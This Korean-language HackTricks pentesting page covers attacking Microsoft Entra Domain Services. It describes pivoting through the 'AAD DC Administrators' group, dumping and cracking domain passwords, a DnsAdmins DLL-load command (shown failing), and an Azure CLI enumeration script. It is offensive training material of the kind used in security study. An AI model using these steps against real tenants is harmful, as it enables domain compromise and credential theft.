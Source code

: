 # Az - Microsoft Entra Domain Services

{{#include ../../../../banners/hacktricks-training.md}}

## Domain Services

Microsoft Entra Domain Services는 도메인 컨트롤러를 관리할 필요 없이 Azure에서 Active Directory를 배포할 수 있게 해줍니다(실제로 도메인 컨트롤러에 접근할 수조차 없습니다).

주요 목표는 현대 인증 방법을 사용할 수 없는 레거시 애플리케이션을 클라우드에서 실행하거나, 디렉터리 조회가 항상 온프레미스 AD DS 환경으로 돌아가기를 원하지 않을 때 이를 가능하게 하는 것입니다.

Entra ID에서 생성된 사용자(다른 Active Directory에서 동기화되지 않은 사용자)를 AD 도메인 서비스와 동기화하려면 **사용자의 비밀번호를 새 비밀번호로 변경해야** 합니다. 실제로 비밀번호가 변경되기 전까지 사용자는 Microsoft Entra ID에서 도메인 서비스로 동기화되지 않습니다.

> [!WARNING]
> 새 Active Directory 도메인을 생성하더라도 완전히 관리할 수는 없습니다(일부 잘못된 구성을 이용하지 않는 한). 즉, 기본적으로 AD에서 직접 사용자를 생성할 수 없으며, **Entra ID에서 사용자를 동기화하여** 생성해야 합니다. 모든 사용자(다른 온프레미스 AD에서 동기화된 사용자 포함), 클라우드 사용자(Entra ID에서 생성된 사용자) 또는 **더욱 필터링할 수 있습니다**.

> [!NOTE]
> 일반적으로 새로운 도메인의 구성 유연성이 부족하고 AD가 보통 온프레미스에 이미 존재하기 때문에, 이는 Entra ID와 AD 간의 주요 통합은 아니지만, 이를 타협하는 방법을 아는 것은 여전히 흥미롭습니다.

### Pivoting

생성된 **`AAD DC Administrators`** 그룹의 구성원은 관리 도메인에 도메인 가입된 VM에서 로컬 관리자 권한을 부여받습니다(하지만 도메인 컨트롤러에서는 그렇지 않습니다). 이 그룹의 구성원은 **원격 데스크톱을 사용하여 도메인 가입된 VM에 원격으로 연결할 수** 있으며, 다음 그룹의 구성원이기도 합니다:

- **`Denied RODC Password Replication Group`**: 이 그룹은 RODC(읽기 전용 도메인 컨트롤러)에서 비밀번호를 캐시할 수 없는 사용자 및 그룹을 지정합니다.
- **`Group Policy Creators Owners`**: 이 그룹은 구성원이 도메인에서 그룹 정책을 생성할 수 있게 해줍니다. 그러나 구성원은 사용자나 그룹에 그룹 정책을 적용하거나 기존 GPO를 편집할 수 없으므로 이 환경에서는 그리 흥미롭지 않습니다.
- **`DnsAdmins`**: 이 그룹은 DNS 설정을 관리할 수 있게 해주며, 과거에 [권한 상승 및 도메인 타협을 위해 악용되었습니다](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins). 그러나 이 환경에서 공격을 테스트한 결과 취약점이 패치된 것으로 확인되었습니다:
```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```
AD 내에서 이러한 권한을 부여하려면 **`AAD DC Administrators`** 그룹이 이전 그룹의 구성원으로 만들어지고, GPO **`AADDC Computers GPO`**가 도메인 그룹 **`AAD DC Administrators`**의 모든 구성원을 로컬 관리자에 추가하고 있음을 유의하십시오.

Entra ID에서 Domain Services로 생성된 AD로의 피벗은 간단합니다. **`AAD DC Administrators`** 그룹에 사용자를 추가하고, 도메인 내의 모든 머신에 RDP로 접근하면 데이터를 훔치고 **도메인을 타협할 수 있습니다.**

그러나 도메인에서 Entra ID로의 피벗은 쉽지 않습니다. 도메인에서 Entra ID로 동기화되는 것이 없기 때문입니다. 그러나 항상 메타데이터를 확인하여 할당된 관리 ID가 흥미로운 권한을 가질 수 있으므로 모든 VM을 확인하십시오. 또한 **도메인에서 모든 사용자 비밀번호를 덤프하고 이를 크랙하여 Entra ID / Azure에 로그인해 보십시오.**

> [!NOTE]
> 과거에 이 관리 AD에서 DC를 타협할 수 있는 다른 취약점이 발견되었음을 유의하십시오, [이와 같은](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com). DC를 타협한 공격자는 Azure 관리자들이 이를 인지하지 못하거나 제거할 수 없도록 쉽게 지속성을 유지할 수 있습니다.

### Enumeration
```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
--url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
--body '{
"subscriptions": [
"0ce1297c-9153-425d-3229-f51093614377"
],
"query": "resources | where type == \"microsoft.aad/domainservices\"",
"options": {
"$top": 16,
"$skip": 0,
"$skipToken": ""
}
}'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)

for nic_id in $nic_ids; do
subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)

if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
echo "VM Name: $vm_name, Resource Group: $resource_group"
fi
done
done <<< "$vm_list"
```
{{#include ../../../../banners/hacktricks-training.md}}
